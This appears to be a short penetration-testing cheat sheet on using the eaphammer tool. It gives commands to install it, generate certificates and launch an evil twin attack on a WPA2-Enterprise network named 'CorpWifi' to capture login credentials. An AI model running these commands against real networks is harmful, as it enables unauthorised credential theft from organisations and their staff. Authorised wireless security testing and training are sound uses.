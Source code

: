 # Cracking Enterprise Networks Using Eaphammer Tool

**targeted evil twin attacks against WPA2-Enterprise networks.**

**Installation**

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
./kali-setup
# generate certificates
./eaphammer --cert-wizard

# launch attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)
